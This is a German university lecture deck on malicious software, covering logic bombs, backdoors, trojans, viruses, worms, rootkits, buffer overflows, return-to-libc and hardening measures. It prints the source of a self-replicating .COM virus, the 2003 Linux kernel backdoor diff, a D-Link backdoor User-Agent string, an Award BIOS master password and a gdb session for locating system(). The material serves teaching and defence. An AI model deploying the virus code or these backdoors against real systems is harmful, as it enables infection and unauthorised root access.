Bösartige Software

Prof. Dr. Lukas Iffländer
HTW Dresden
01.08.2026
Agenda
- 01Logische Bomben
- 02Hintertüren
- 03Trojanische Pferde
- 04Viren und Würmer
- 05Rootkits
- 06Buffer Overflows
- 07Schutzmechanismen
Überblick

Logische Bomben
Idee
Implantierung “bösartigen” Codes in Applikationen (oder in das BS), Aktivierung des Codes, sobald eine bestimmte Aktivierungsbedingung erfüllt
- Aktivierungsbedingung: Eintritt eines Datums -> (logische) “Zeitbombe”
- meist simples Löschen von Daten
- häufig eingesetzt, um “Rache” für Entlassung o. ä. zu üben
Ausschnitt aus dem McAfee-Aktivierungskalender
- 12. Mai W97M/Alamat, W97M/Yous, VBS/Horty.b@MM, VBS/Horty.a@MM, WM/Alliance.A, WM/Envader.A (Intended), WM/Eraser.A:Tw, VBS/Aqui
- 13. Mai VBS/Aqui, VBS/Zync, WM/Eraser.A:Tw, VBS/Alphae, WM/Envader.A (Intended), Twno.A, WM/BOOM.A;B, WM/BADBOY.A;B;C, WM/FRIDAY.D, WM/FRIDAY.A, WM/Goldsecret.B:Int,WM/CVCK1.B;E, W97M/Rapmak.a, W97M/Yous, W97M/Alamat, WM/SHOWOFF.G, W97M/BackHand.A, W97M/Idea.A, W97M/Digma
- 14. Mai X97M/Jal.a, VBS/San@M, W97M/Este, W97M/Alamat, W32/SoftSix.worm, W97M/Yous, VBS/Valentin@MM, WM/PHARDERA.C ;D (INTENDED), W97M/Class.B, W97M/Class.D, W97M/Ekiam, WM/Eraser.A:Tw, VBS/Aqui
- 15. Mai …
Logische Bomben
Beispiel: USPA & IRA, Ft. Worth, TX, 1985
- Donald Gene Burleson, Programmierer für Versicherung USPA & IRA, Ft. Worth, TX
- entlassen am 18. 9. 1985 (Grund: persönliche Schwierigkeiten)
- am 21. 9. 1985 um 3 Uhr werden 168.000 Datensätze aus der Datenbank des Unternehmens gelöscht
- Code wurde bei Restaurierung der gelöschten Datensätze gefunden
- vor Gericht:
“Benson, who spent four days testifying about how he uncovered the scheme, said the destructive programs were created Sept. 2 and Sept. 3, 1985, on Burleson’s computer terminal by someone using Burleson’s computer password.”
Hintertüren (Back Doors)
Idee
Einbau (nichtdokumentierter) Schnittstellen in Software zwecks späteren (unautorisierten) Zugriffes auf das System.
- Missbrauch von geheimen Debugging-Schnittstellen
- schwierig von BS-Seite aus zu erkennen
- häufiges Relikt aus der Produktentwicklung
- Behörden sind häufig der Meinung, ein Anrecht auf Hintertüren zu haben
- Gegenmaßnahme: Code Reviews, Open Source
- symmetrische vs. asymmetrische Hintertüren
- viele Würmer installieren Back Doors
- feste Master-BIOS-Passwörter, z. B. lkwpeter bei Award BIOS
Beispiel einer Hintertür
Beispiel: Login-Code mit Hintertür [1]
Beispiel 2: Backdoor im Linux-Kern; nice try
From: Larry McVoy [email blocked]
Subject: Re: BK2CVS problem
Date: Wed, 5 Nov 2003 14:23:02 -0800
On Wed, Nov 05, 2003 at 12:58:13PM -0800, Matthew Dharm wrote:
> Out of curiosity, what were the changed lines?
--- GOOD 2003-11-05 13:46:44.000000000 -0800
+++ BAD 2003-11-05 13:46:53.000000000 -0800
@@ -1111,6 +1111,8 @@
schedule();
goto repeat;
}
+ if ((options == (__WCLONE|__WALL)) && (current->uid = 0))
+ retval = -EINVAL;
retval = -ECHILD;
end_wait4:
current->state = TASK_RUNNING;
---
Larry McVoy lm at bitmover.comBeispiel 2: Backdoor im Linux-Kern
- jemand modifizierte die Kernelquellen (unautorisiert)
- fraglicher Code gehört zu
sys_wait4(), d. h. dem Systemrufwait4() - “verkleideter Code”;
(current->uid = 0)sieht so ähnlich aus wie(current->uid == 0) - wenn jemand
wait4()aufruft und die Optionen__WCLONEund__WALLsind gesetzt, so erhält der Rufende root-Rechte - Code wurde beim Review entdeckt (“It’s not a big deal, we catch stuff like this, but it’s annoying to the CVS users.”)
Backdoors: Weitere Beispiele
- Das FBI hat (wahrscheinlich) Vertragspartner gebeten, den IPsec-Stack von OpenBSD mit Backdoors auszustatten (14. 12. 2010).
- http://marc.info/?l=openbsd-tech&m=129236621626462&w=2
- Die Konfiguration einiger Router der Firma D-Link kann mittels eines Browsers modifiziert werden, wenn der User-Agent-String die Zeichenkette “mlset_roodkcableoj28840ybtide” enthält (12. 10. 2013).
- http://www.devttys0.com/2013/10/reverse-engineering-a-d-link-backdoor/
Trojanische Pferde (“Trojaner”)
Idee
Dem Nutzer ein Programm unterschieben, welches bei Aktivierung unerlaubte Aktionen ausführt.
- anstelle eines Eindringlings führt ein autorisierter Nutzer Schadcode aus
- Beispiel: gefälschter Login-Bildschirm
- Klassiker: Compiler, der unbemerkt bösartigen Code in übersetzte Programme einbaut (Ken Thompson: Reflections on Trusting Trust, CACM 4(27), S. 761ff.)
- vgl. “Staatstrojaner” (früher: “Bundestrojaner”)
- Strafverfolger dürfen Rechner kompromittieren, um ohne Wissen des Betroffenen Kommunikation zu überwachen
- am 22.6.2017 im Bundestag mittels intransparentem Eilverfahren beschlossen
Beispiel eines simplen UNIX-Trojaners
(ls benennen und im Pfad eines Nutzers unterbringen)
- kopiert und versteckt Shell
- setzt das SetUID-Bit und macht die Shell für alle ausführbar
- -> läuft mit den Rechten des Eigentümers, anstatt mit denen des Aufrufenden
- Zugriff auf Daten des Angegriffenen
(Computer)-Viren
“A virus is a program that is able to infect other programs by modifying them to include a possibly evolved copy of itself.”
- Fred Cohen
Definition 1
A virus is a program that reproduces its own code by attaching itself to other executable files in such a way that the virus code is executed when the infected executable file is executed.
Anmerkungen:
- Implementationssprache irrelevant
- keine Schadroutine nötig
- Wurm ist ggf. auch ein Virus
- Beispiele: Bootsektor-V., Makro-V., polymorphe V.
Beispiel für viralen Code
Analyse:
- beschränkt auf eigenes Verzeichnis
- mehrfache Infektion wahrscheinlich
- kein Payload
- leicht zu analysieren ;-)
Ein (etwas) besserer Virus
Bestandteile eines Virus
- Infektionsmechanismus: Aufsuchen von Zielen, Replikation
- Routine(n) zum Verbergen: vor dem Nutzer oder Anti-Viren-Software
- Trigger: Entscheidung, ob bzw. wann Nutzlast aktiviert wird
- Nutzlast: zufälliger oder beabsichtigter Schaden oder “Spaß”
Simpler Virus in C
blackwolf.c, leicht modifiziert
#include <stdio.h>
#include <dos.h>
#include <dir.h>
FILE * Virus, * Host; int x, y, done; char buff[256]; struct ffblk ffblk;
int main(char argc, char * argv[]) {
done = findfirst("*.com", &ffblk, 0); /* Find a .COM file */
while (!done) { /* Loop through all .COM files */
printf("Infecting %s\n", ffblk.ff_name); /* Print the name of the file */
Virus = fopen(argv[0], "rb"); /* Open the virus */
Host = fopen(ffblk.ff_name, "r+b"); /* Open the host */
x = 9504; /* Offset of the virus */
while (x > 256) { /* Copy the virus to the host */
fread(buff, 1, 256, Virus); fwrite(buff, 1, 256, Host); x -= 256;
}
fread(buff, 1, x, Virus); fwrite(buff, 1, x, Host); fcloseall();
done = findnext(&ffblk); /* Find the next .COM file */
}
return 0;
}Analyse: Blackwolf-Virus in C
- sucht alle .COM-Dateien im aktuellen Verzeichnis und infizierte diese (auf einmal) -> schnelle Infektion
- überschreibender Virus
- mäßig destruktiv: Virus-Code überschreibt Anfang der Ziele
- verbirgt sich nicht
- keine Nutzlast
- infiziert bei jeder Aktivierung, Ziele wachsen nicht, da überschreibend
Weitere Informationen zu Viren
- “An Illustrated Guide to the Worst Viruses in Computer History”:
- http://cargocollective.com/computerviruscatalog/
- Bedeutung rückläufig
- Schutzkonzepte moderner Betriebs- und Dateisysteme
- typischer Verbreitungsweg - Tausch von Datenträgern mit “Raub”kopien - irrelevant
- keine wirtschaftliche Verwertbarkeit
Würmer
“An independently replicating and autonomous infection agent, capable of seeking out new host systems and infecting them via the network.”
- Jose Nazario
Bekannte Vertreter:
- W32.Blaster
- Melissa
- Mydoom
- Sasser
- Conficker
- WannaCry
Komponenten eines Wurms I
- Aufklärung neuer Hosts als potentielle Angriffsziele
- IP-Adressräume (partiell) durchsuchen
- lokale Suche in (z. B.) Konfigurationsdateien
- OS Fingerprinting, um BS-Typ und -Version zu ermitteln
- Angriffscode
- Remote Exploit bekannter Schwachstellen
- Trojanisches Pferd (z.B. Mail mit attached Binary)
- benötigt für jede anzugreifende Plattform Exploit
- Kommunikation
- B. mittels ICMP, UDP, …, E-Mail
- über verdeckte Kanäle
- Verbergen beteiligter Prozesse und Sockets mittels Kernelmodul oder durch Störung von Überwachungssoftware
Komponenten eines Wurms II
- Kommandoschnittstelle
- interaktiv oder indirekt (script-gesteuert)
- typische Kommandos: Up-/Download von Dateien, Flut-Ping, Generierung von HTTP-Requests, …
- Verwaltung der erfolgreich angegriffenen Hosts
- verteilte oder zentralisierte Datenbank
- Liste aller befallenen Rechner
- in privatem IRC-Channel
Weitere Begriffe
- Ransomware
- (kryptografisch sichere) Verschlüsselung des Massenspeichers
- Entschlüsselung nur nach Zahlung eines “Lösegelds”
- gegenwärtig meistverbreitete Form bösartiger Software
- Rootkit
- Software, die zur Verschleierung der Kompromittierung eines Rechners dient
- Spyware - zeichnet Nutzerverhalten auf
- Keylogger: Gerät zum Aufzeichnen aller Tastenanschläge1
- Hoax (z. B. Good-Times-“Virus”, Bonsai Kitten)
- illegales Cryptomining (“CoinHive”)
Hoax: Bonsai Kitten

Rootkits
Definition 2
Ein Rootkit ist ein (üblicherweise unerwünschtes) Programm, das sich nach Installation vor dem Nutzer verbirgt.
Merkmale:
- Installation typischerweise nach erfolgreichem Einbruch, um Einbruchszweck abzusichern, z. B.:
- dauerhafte Unterwanderung des Systems
- Diebstahl von Passwortdaten per Keylogger oder Sniffer
- verschafft sich keine root-Privilegien, sondern benötigt diese bei Installation
Eintrittsvektoren:
- versehentliches Ausführen
- physischer Zugriff des Angreifers auf System
- Einbruch via Netzwerk
Rootkits
dateibasierte vs. kernelbasierte Rootkits
- dateibasierte Rootkits
- tauschen Werkzeuge aus, die zur Detektion des Rootkits genutzt werde könnten (ssh, ps, ls, netstat)
- Unterart: Library Rootkits: tauschen die entsprechenden Systembibliotheken aus
- laufen im User Mode
- kernelbasierte Rootkits
- modifizieren den Kernel z. B. über Modulmechanismus oder Speicherabbild (/dev/kmem)
- äußerst schwierig zu detektieren
Rootkits: Gegenmaßnahmen
- Unrechtmäßigen root-Zugriff verhindern
- Unrechtmäßigen root-Zugriff verhindern (again!)
- Deaktivierung des Modulmechanismus (-> alle Treiber statisch in den Kernel kompilieren)
- Vergleich nach außen geöffnete Ports (netstat) mit externem Portscan (nmap) -> Achtung, “Hackertool”!
- Suche nach charakteristischen Zeichenketten im Hauptspeicher (Werkzeug chkrootkit)
- Boot von sauberem Datenträger (Live-CD) und Suche nach “verdächtigen” Dateien
Lernziele
- Stack-Overflows erklären und Angriffsablauf beschreiben
- Return-to-libc/ROP einordnen und Grenzen klassischer Gegenmaßnahmen benennen
- Härtungsmaßnahmen in der Praxis anwenden und beurteilen
- Relevante Begriffe und Schutzmechanismen sicher verwenden (Canary, W⊕X, ASLR)
Buffer Overflow
(Sehr einfaches) verwundbares Programm
Buffer Overflow: Prinzip
- bestimmte Funktionen der C-Bibliothek führen keine Längenprüfung ihrer Argumente aus (Klassiker:
strcpy()) - Idee: lokale Variablen (über deren Länge hinaus) mit einer solchen Funktion überfluten (Stack Overflow)
- Überschreiben der Rücksprungadresse auf dem Stack mit Adresse einer Schadroutine
- bei Verlassen der aktuellen Funktion -> Sprung zur Schadroutine
- Ursache: mögliches Verlassen von Feldgrenzen in C, ungeprüfte Länge der Argumente von Bibliotheksfunktionen wie
strcpy()odergets(), gezielte Manipulation von Zeigervariablen
Stack Overflow: Ausschnitt des Stacks

Stack Overflow: Ausschnitt des Stacks

Stack Overflow: Ausschnitt des Stacks

Stack Overflow: Ausschnitt des Stacks

Stack Overflow: Ausschnitt des Stacks

Buffer Overflow: Einfache Gegenmaßnahmen
- Verzicht auf unsichere Funktionen, u.a.
strcpy(),strcat(),sprintf(),vsprintf(),gets()bzw. Nutzung der Pendants mit Bereichsprüfung, aber: - Semantik nicht übereinstimmend (z. B. nullterminiert
strncpy()das Ziel nicht bei maximal langem String) - Geschwindigkeitsnachteile
- Legacy Code?
Buffer Overflow: StackGuard
Idee Schutz d. Rücksprungadresse durch zusätzliches Canary Word.
- Canary Word wird im Funktionsprolog angelegt
- Overflow überschreibt Canary
- beim Rücksprung aus Funktion wird Canary auf Integrität getestet
- Abbruch, wenn falscher Wert

Buffer Overflow: Wahl des Canary Word
Terminator Canary - Werte nutzen, die typische Zeichenkettenfunktionen terminieren
| Wert | Symbol | Semantik |
|---|---|---|
0x00 |
- | stoppt strcpy() |
0x0a |
LF | stoppt gets() |
0x0d |
CR | |
-1 |
EOF | stoppt gets() |
Tabelle: Terminator Canary
- optimal ist z. B.
0x000d0aff - Random Canary - erst zum Programmstart generiert; Angreifer kann darauf nicht mehr reagieren (Angreifer läuft parallel zum angegriffenen Programm)
StackGuard
Idee
- Rücksprungadresse im Prolog in eine extra Tabelle kopieren
- im Epilog Kopie der Rücksprungadresse wieder an entsprechende Position im Stack schreiben
- keine Prüfung auf Identität
Grenzen des Konzepts
- moderate Leistungseinbuße
- Lokale Variablen und Saved Frame Pointer nicht geschützt
- Canary Word u. U. durch Angreifer restaurierbar, wenn statisch
- vgl. “Bulba”, “Kil3r”: Bypassing Stackguard and Stackshield, Phrack, vol. 10, no. 56, 2000
Ausführungsverbot beschreibbarer Seiten (W⊕X)
Einfachster Fall: Architektur unterstützt execute-Recht im Seitentabelleneintrag (Beispiele: sparc, ppc, ia64)
Problem
ia32 tut dies nicht.
No-Execute
Lösung 1: NX (“No-Execute”) aka “Enhanced Virus Protection”
- erfordert Physical/Page Address Extension (PAE) - existiert eigentlich ab Pentium Pro
- NX jedoch erst ab Prescott-Kern (Intel), AMD64
- Seitentabelleneintrag: 64 Bit (statt 32 Bit)
- Seiten, Seitentabellen und Seitentabellenverzeichnis 4 KiB
- nur noch 1/4 der Einträge -> drittes Hierarchielevel (vgl. folgende Grafik)
- gegenwärtig: 36 Bit-Adressen (maximal: 52 Bit)
- Bit 63 ist das No-Execute-Bit
Adressumsetzung bei PAE

Ausführungsverbot beschreibbarer Seiten (W⊕X) II
Lösung 2: Emulation in Software
- alle PTEs der zu schützenden Bereiche (Stack, Heap, Daten) haben initial Supervisor-Bit gesetzt
- -> Pagefault bei Zugriff
- Handler:
- bei Instruction Fetch -> Abbruch der Task, Logging des Angriffs
- bei Datenzugriff: Rücksetzen des SV-Bits, Zugriff ausführen (Überführung der Übersetzung in Data-TLB), Setzen des SV-Bits
- weitere Datenzugriffe durch DTLB gecacht
- nur möglich, wenn getrennte Daten- und Code-TLBs
Ausführungsverbot beschreibbarer Seiten
Einbau in Betriebssysteme:
- Linux ab 2.6.8
- Windows XP ab SP2; kein Backport nach Windows 2000
Address Space Layout Randomization (ASLR)
Beobachtung
Distanz zwischen Top-of-Stack (TOS) und anzugreifender Rücksprungadresse ist konstant, wird offline (werkzeuggestützt) erraten und in Exploit eingebaut.
Idee
Anfangsadressen von Stack, Heap und Code werden zufällig zur Ladezeit generiert.
Problem
Eingeblendete shared Libraries müssen auch zufällig verteilt werden.
- erschwert auch Return-to-libc-Exploits
- unsicher auf allen modernen cachebasierten Architekturen [2]
Return-to-libc
- Manipulation einer Rücksprungadresse auf dem Stack mittels Buffer Overflow
- jedoch (“Rück”-)Sprung in eine Shared Library (libc) anstatt zu eigenem Shellcode
- (Abb. nächste Folie)
- Beispiel:
system("/bin/sh"); - (führt
/bin/sh -c /bin/shaus) - wenn angegriffenes Programm setuid root ist, wird damit eine root-Shell geöffnet
- macht nichtausführbaren Stack wirkungslos
Stacklayout bei Return-to-libc

Anmerkungen
- dummy-Feld ist “Rücksprungadresse”, die angesprungen wird, wenn
system()verlassen wird - irrelevant, wenn interaktive Shell gestartet wurde, da diese nicht zurückkehrt
Bestimmung der Einsprungadresse (statisch)
robge@hadrian$ cat dummy.c
int main()
{
system();
}
robge@hadrian$ gcc -o dummy dummy.c
robge@hadrian$ gdb -q dummy
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) break main
Breakpoint 1 at 0x8048362
(gdb) run
Starting program: /home/local/robge/src/cracking/dummy
Breakpoint 1, 0x08048362 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7ed8990 <system>Gegenmittel: Address Space Layout Randomization, Parameterübergabe in Registern (ELF64-SystemV ABI bei x86-64)
Dynamische Ermittlung der Einsprungadresse
Idee:
- Kindprozess erzeugen, der kontinuierlich
system("")aufruft - Instruction Pointer springt zwischen
main()undsystem()(libc-Funktion) - mittels
ptrace()kann die genaue Adresse vonsystem()bestimmt werden
Verkettung zweier libc-Rufe

Verkettung zweier libc-Rufe
- Reihenfolge
setuid()->system() setuid(0)leider unmöglich, da Pufferüberlauf damit vorzeitig abbrechen würde- nur möglich, wenn erster libc-Aufruf genau ein Argument übernimmt (dummy-Lücke)
- weitere Rufe nicht möglich
Return-to-libc-Angriff: Weitere Techniken
- mehr als 2 libc-Aufrufe mit beliebig vielen Argumenten (!!)
- Frame Pointer Lifting
- Frame Faking
- Nullbytes im angegriffenen Puffer ebenfalls möglich
Heap-Overflow
- Idee: Manipulation von auf dem Heap angelegten Variablen durch das Überfluten eines unmittelbar davor gelegenen Puffers
- keine Rücksprungadresse -> implizite Manipulation des Programmflusses unmöglich
- Reihenfolge der Adressen abhängig von Allokationsreihenfolge
- ⇒ Exploit weniger regulär (abhängig vom Typ der manipulierten Information)
Integer-Overflow
Idee
Überlauf des Zahlenbereichs von Integervariablen führt zu negativen Zahlen, die in Vergleichsoperationen und als Funktionsargumente unterschiedlich interpretiert werden.
- kein Schadcode ausführbar
- Ziel: DoS
Integer-Overflow: Beispiel
Analyse:
memcpyerwartet unsigned int als 3. Parameter- negatives
lendurch Test nicht erkannt - -> wird als (sehr große) Längenangabe interpretiert
- Überlauf von
mybuffer
Härtungsmaßnahmen in der Praxis
- Compiler/Linker:
-fstack-protector-strong,-D_FORTIFY_SOURCE=2 - Position-Independent Executables:
-fPIE -pie - RELRO + sofortiges Auflösen:
-Wl,-z,relro -Wl,-z,now - Optional: harte Fehler statt Lazy Binding:
-Wl,-z,defs - Laufzeit: ASLR aktiv (Linux:
/proc/sys/kernel/randomize_va_space = 2)
Leseempfehlungen
- Jon Erickson. Hacking. The art of exploitation. [Nachdr.] Sacherschließung aus ppn 121066640 übernommen. San Francisco: No Starch Press, 2006. 241 S. ISBN: 1593270070
- Aleph One. “Smashing the Stack for Fun and Profit”. In: Phrack Magazine (1996). URL: https://cir.nii.ac.jp/crid/1571417125434029312
- http://www.phrack.org/
Literaturverzeichnis I
[1] Andrew S. Tanenbaum und Herbert Bos. Modern operating systems. 4. Aufl. Boston: Prentice Hall, 2015. 1101 S. ISBN: 013359162X.
[2] Ben Gras u. a. “ASLR on the Line: Practical Cache Attacks on the MMU”. In: Proceedings 2017 Network and Distributed System Security Symposium. NDSS 2017. Internet Society, 2017. DOI: 10.14722/ndss.2017.23271.
[3] Jon Erickson. Hacking. The art of exploitation. [Nachdr.] Sacherschließung aus ppn 121066640 übernommen. San Francisco: No Starch Press, 2006. 241 S. ISBN: 1593270070.
[4] Aleph One. “Smashing the Stack for Fun and Profit”. In: Phrack Magazine (1996). URL: https://cir.nii.ac.jp/crid/1571417125434029312.
Vielen Dank!
Prof. Dr. Lukas Iffländer
HTW Dresden
01.08.2026

01.08.2026 / Bösartige Software / HTW Dresden / Prof. Dr. Lukas Iffländer